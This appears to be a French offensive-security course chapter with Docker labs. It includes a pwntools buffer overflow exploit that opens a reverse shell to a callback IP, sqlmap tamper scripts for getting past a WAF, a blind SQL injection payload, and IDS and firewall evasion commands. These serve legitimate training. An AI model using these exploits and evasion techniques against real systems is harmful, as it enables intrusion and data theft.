

# Chapitre 03 : Vulnérabilités avancées et contournement des protections — Techniques de hacking et contre-mesures - Niveau 1

---

## Objectifs pédagogiques

- Exploiter un buffer overflow avec contrôle du flux d'exécution (EIP)
- Maîtriser les injections SQL avancées : blind, time-based
- Contourner un WAF (ModSecurity) avec sqlmap tamper scripts
- Appliquer les techniques d'évasion (TA0005 Defense Evasion)

---

## Introduction

Les défenses évoluent. Firewalls, WAF, IDS/IPS forment un maillage que les attaquants contournent quotidiennement. Le CERT-FR documente ces techniques d'évasion dans ses bulletins d'actualité hebdomadaires — les vrais attaquants utilisent exactement ces méthodes.

Ce chapitre est centré sur la tactique **TA0005 Defense Evasion** (50+ techniques). Vous apprendrez à contourner les protections par obfuscation et exploitation mémoire.

> **Sources :** [ATT&CK Defense Evasion](https://attack.mitre.org/tactics/TA0005/). [CERT-FR](https://www.cert.ssi.gouv.fr/).

---

## 1. Buffer overflow — T1068 Exploitation for Privilege Escalation

### Fonctionnement technique

Quand un programme appelle une fonction, il réserve un espace mémoire (stack frame). Les variables locales sont stockées avant l'adresse de retour :

```
Adresses hautes
+-----------------------------+
|  arguments                  |
+-----------------------------+
|  adresse de retour (EIP)    | <-- Contrôler ce registre = contrôler l'exécution
+-----------------------------+
|  saved EBP                  |
+-----------------------------+
|  buffer local [64 octets]   | <-- strcpy() écrit ici sans limite
+-----------------------------+
Adresses basses
```

Si on écrit plus de 64 octets dans `buffer`, on déborde sur EIP. En y plaçant l'adresse de notre shellcode, on redirige l'exécution du programme.

```mermaid
flowchart LR
    A["Payload :<br/>'A'*76 + NOP + Shellcode"] --> B["Débordement<br/>écrase EIP"]
    B --> C["EIP → Shellcode"]
    C --> D["Exécution arbitr.")
```

---

## Lab 3.1 — Buffer Overflow avec pwntools

###  Fiche

| Durée | Conteneur | Dossier | Technique ATT&CK |
|---|---|---|---|
| 1h | buffovf (port 9001) | `~/cours-hacking/jour-3/labs/` | T1068 |

### Contexte métier

Les buffer overflows restent dans le top 3 des vulnérabilités critiques (MITRE CWE Top 25). Exploiter un BOF démontre la maîtrise de la mémoire — compétence exigée pour les certifications OSCP, OSED.

### Prérequis

```bash
docker compose up -d --build buffovf
nc -z localhost 9001 && echo "OK"
pip install pwntools
mkdir -p ~/cours-hacking/jour-3/labs && cd ~/cours-hacking/jour-3/labs
```

### Étape 1 — Test crash

```bash
cd ~/cours-hacking/jour-3/labs
python3 -c "print('A'*100)" | nc localhost 9001
# → Input received: AAAA... (le programme répond avant de crasher — overflow confirmé)
```

### Étape 2 — Exploit avec reverse shell

Le code source vulnérable est dans `~/cours-hacking/repo/docker/buffovf/vuln.c` :

```c
void vulnerable_function(char *input) {
    char buffer[64];
    strcpy(buffer, input);  // PAS de strncpy → overflow !
}
```

```bash
cd ~/cours-hacking/jour-3/labs
cat > exploit_bof.py << 'PYEOF'
#!/usr/bin/env python3
from pwn import *

context.arch = 'i386'
context.os = 'linux'

OFFSET = 76              # 64 buffer + 4 EBP + 8 align = 76
CALLBACK_IP = "172.17.0.1"  # IP du bridge docker0
CALLBACK_PORT = 4444

print(f"[*] Reverse shell → {CALLBACK_IP}:{CALLBACK_PORT}")
shellcode = asm(shellcraft.i386.linux.connect(CALLBACK_IP, CALLBACK_PORT))

payload = b"A" * OFFSET + b"BBBB" + b"\x90" * 32 + shellcode
print(f"[*] Payload : {len(payload)} octets")

r = remote('localhost', 9001, timeout=10)
r.sendline(payload)
print("[+] Payload envoyé. Vérifiez l'écouteur netcat.")
r.interactive()
PYEOF
echo "Fichier créé : exploit_bof.py"
```

### Étape 3 — Lancer l'attaque

```bash
# Terminal 1
nc -lvnp 4444

# Terminal 2
cd ~/cours-hacking/jour-3/labs
python3 exploit_bof.py
```

**Checkpoint :** Retournez dans le **Terminal 1** (netcat) : une connexion entrante et un prompt shell apparaissent. La cible (buffovf) exécute le shellcode.

### Diagnostic reverse shell IP

```bash
# Trouver l'IP que les conteneurs Docker utilisent pour joindre Kali
ip addr show docker0 | grep 'inet ' | awk '{print $2}' | cut -d/ -f1
# → généralement 172.17.0.1

# Vérifier la connectivité
docker exec buffovf-target ping -c 1 172.17.0.1
```

---

## Lab 3.2 — Contournement WAF avec sqlmap

###  Fiche

| Durée | Conteneur | Technique ATT&CK |
|---|---|---|
| 45 min | waf-target (port 8081) | T1562.001 Impair Defenses |

### Contexte technique

Un WAF (Web Application Firewall) bloque les signatures d'attaque connues. Mais il ne comprend pas le sens — il ne fait que du pattern matching. Si on modifie légèrement la syntaxe sans changer le sens, ça passe. C'est le principe de tous les tamper scripts sqlmap.



### Étape 1 — Vérifier le blocage

Dans un terminal :

```bash
# Requête normale
curl -s -o /dev/null -w "%{http_code}" "http://localhost:8081/?id=1"
# → 200

# SQLi brute → bloquée
curl -s -o /dev/null -w "%{http_code}" "http://localhost:8081/?id=1%20OR%201=1"
# → 403 (WAF bloque)
```

### Étape 2 — Bypass avec sqlmap

```bash
cd ~/cours-hacking/jour-3/labs
sqlmap -u "http://localhost:8081/?id=1" \
  --tamper=space2comment,charencode,randomcase \
  --batch --dbs 2>&1 | tee sqlmap_waf_bypass.txt
```

**Checkpoint :** sqlmap contourne le WAF et liste les bases.

### Tamper scripts utilisés

| Tamper | Effet | Avant → Après |
|---|---|---|
| `space2comment` | ` ` → `/**/` | `1 OR 1` → `1/**/OR/**/1` |
| `charencode` | Encode les caractères spéciaux | `'` → `%27` |
| `randomcase` | Casse aléatoire | `SELECT` → `sELeCt` |

---

## Exercices

### Exercice 1 : Offset EIP avec GDB

**Énoncé :** Confirmez l'offset EIP dans le conteneur.

<details><summary><strong>Solution</strong></summary>

```bash
docker exec -it buffovf-target bash
cd /opt && gdb -q ./vuln
(gdb) run $(python3 -c "print('A'*100)")
# Noter la valeur de EIP après crash
```
</details>

### Exercice 2 : Blind SQLi sur DVWA medium

**Énoncé :** Extrayez un nom d'utilisateur via blind SQLi booléenne (sans union-based).

<details><summary><strong>Solution</strong></summary>

```sql
' AND SUBSTRING((SELECT user FROM users LIMIT 1), 1, 1)='a' --
-- Si la page montre 5 users, le 1er caractère est 'a'. Sinon, essayer 'b'...
```
</details>

### Exercice 3 : Choisir la technique d'évasion

**Énoncé :** Pour chaque scénario, donnez la technique ATT&CK + l'outil/commande :

1. Scan réseau sans déclencher l'IDS
2. SQLi bloquée par WAF
3. Exfiltration malgré firewall qui bloque le port 443

<details><summary><strong>Solution</strong></summary>
1. T1001 Data Obfuscation → `nmap -f -T1`
2. T1562.001 Impair Defenses → `sqlmap --tamper=space2comment,randomcase`
3. T1572 Protocol Tunneling → DNS tunnel (iodine) ou T1048.003 Exfiltration Over Alternative Protocol
</details>

---

## Points clés à retenir

- **Buffer overflow** : écrire au-delà du buffer → contrôler EIP → exécuter du code arbitraire
- **Reverse shell IP** : depuis un conteneur Docker vers Kali, utiliser `docker0` (172.17.0.1)
- **WAF bypass** : le WAF fait du pattern matching, pas de la compréhension sémantique
- **TA0005 Defense Evasion** : 50+ techniques documentées dans ATT&CK
- Les vrais attaquants utilisent ces méthodes — le CERT-FR les documente chaque semaine

## Pour aller plus loin

- [ATT&CK Defense Evasion (TA0005)](https://attack.mitre.org/tactics/TA0005/)
- [Corelan Exploit Development](https://www.corelan.be/index.php/articles/)
- [Awesome WAF](https://github.com/0xInfection/Awesome-WAF)
- [CERT-FR](https://www.cert.ssi.gouv.fr/)

---
*Chapitre précédent : [Jour 2](./JOUR-02-tests-penetration-exploitation.md)*

*Chapitre suivant : [Jour 4](./JOUR-04-contre-mesures-securisation-systemes.md)*
